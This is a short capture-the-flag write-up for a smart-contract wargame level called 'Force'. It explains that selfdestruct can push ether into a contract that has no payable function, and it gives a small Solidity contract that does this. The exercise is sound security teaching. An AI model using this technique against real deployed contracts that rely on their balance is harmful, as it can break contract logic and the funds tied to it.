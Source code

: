 Level 7: Force

Objective:

The goal of this level is to make the balance of the contract greater than zero.

Concept:

selfdestruct() to send Ether forcibly

Explanation:

A contract can selfdestruct sending its ether to any address even if that address is a contract with no payable function.

Solution:

Deploy this contract:

contract ForceSend {
  constructor() payable {}
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}

Send ether to it then call destroy(contrcats address).

Key Takeaways:

selfdestruct bypasses payable modifiers and ether can be forced into any contract.
